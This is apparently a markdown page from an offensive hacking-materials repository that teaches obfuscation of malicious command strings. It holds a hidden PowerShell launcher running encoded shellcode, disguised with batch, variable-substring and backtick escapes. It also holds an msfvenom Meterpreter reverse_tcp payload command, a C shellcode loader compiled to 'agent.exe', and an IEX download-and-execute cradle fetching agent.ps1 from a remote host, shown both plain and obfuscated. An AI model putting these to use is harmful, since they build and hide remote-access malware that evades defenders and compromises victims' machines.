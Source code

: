 <br />

# SIMPLE STRING OBFUSCATION TECNICS

<br /><br /><br />

## batch

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **batch escape caracter** ^<br />

- string obfuscated<br />

      cm^d.e^xe /c po^w^er^shel^l.ex^e -n^op -w^i^nd h^idd^en -Ex^e^c B^yp^a^ss -no^n^i -en^c $shellcode

---

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />

- using one batch local variable to serve as our **master key** (varObj)

      @echo off
      SET varObj=abcdefghijlmnopqrstuvxzkyW0123456789ABCDEFGHIJLMNOPQRSTUVXZKYW
      %varObj:~3,1%%varObj:~12,1%%varObj:~4,1%.exe /c %varObj:~15,1%%varObj:~14,1%%varObj:~26,1%%varObj:~5,1%%varObj:~17,1%%varObj:~18,1%%varObj:~8,1%%varObj:~5,1%%varObj:~11,1%%varObj:~11,1%.exe -nop -%varObj:~26,1%%varObj:~9,1%%varObj:~4,1%%varObj:~4,1%%varObj:~5,1%%varObj:~13,1% -%varObj:~41,1%%varObj:~22,1%%varObj:~5,1%%varObj:~3,1% %varObj:~38,1%%varObj:~25,1%%varObj:~15,1%%varObj:~1,0%%varObj:~18,1%%varObj:~18,1% -noni -%varObj:~5,1%%varObj:~13,1%%varObj:~3,1% $shellcode
      exit


- Description of varObj master_key:<br />
https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/pedro-Wandoelmo-key.md
      

---

<br /><br /><br />

## bash

- build shellcode in **C** format

      msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.69 LPORT=666 -f C -o shellcode.txt

- encoding shellcode in **C** to **ANCII**

      \x8b\x5a\x00\x27\x0d\x0a  <-- C shellcode

      8b5a00270d0a              <-- ANCII shellcode


- **parsing** shellcode data

      # store parsed data into '$store' local var
      store=`cat shellcode.txt | tr -d '\\' | tr -d 'x' | tr -d '\n'`

      # inject shellcode into template.c using SED bash command
      sed -i "s/INSERT_SHELLCODE_HERE/$store/g" template.c


- template.c

      #include
      #include
      #include
      #include
      #include
      #include
      #include
      <stdio.h>
      <stdlib.h>
      <unistd.h>
      <string.h>
      <windows.h>
      <tchar.h>
      <stdlib.h>

      void exec_shellcode(unsigned char *shellcode)
      {
      int (*funct)();
         funct = (int (*)()) shellcode;
         (int)(*funct)();
      }

      // return pointer to shellcode
      unsigned char* decode_shellcode(unsigned char *buffer, unsigned char *shellcode, int size)
      {
      int j=0;
         shellcode=malloc((size/2));
         int i=0;
      do
      {
      unsigned char temp[3]={0};
         sprintf((char*)temp,”%c%c”,buffer[i],buffer[i+1]);
         shellcode[j] = strtoul(temp, NULL, 16);
         i+=2;
         j++;
      } while(i<size);
         return shellcode;
      }
         int main (int argc, char **argv)
      {
         unsigned char *shellcode;

      unsigned char buffer[]=
      "INSERT_SHELLCODE_HERE";

      int size = sizeof(buffer);
         shellcode = decode_shellcode(buffer,shellcode,size);
         exec_shellcode(shellcode);
      }

- compiling with **GCC**

      gcc template.c -o agent.exe

---

<br /><br /><br />

## powershell

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **powershell escape caracter** `<br />

- string obfuscated<br />

      cm`d.e`xe /c po`w`er`shel`l.ex`e -n`op -w`i`nd h`idd`en -Ex`e`c B`yp`a`ss -no`n`i -en`c $shellcode

---

- string command to obfuscate<br />
`powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.71/agent.ps1')`<br />
The above string can be obfuscated using **powershell escape caracters** ` and + <br />

- string obfuscated<br />

      $get = New-Object "N`et`Web`Cl`ie`nt"
      p`owe`r`she`l`l.exe IEX ($get).D`ow`n`loa`dSt`rin`g('h'+'t'+'tp'+':'+'//'+'192.168.1.71/agent.ps1')

---

<br />

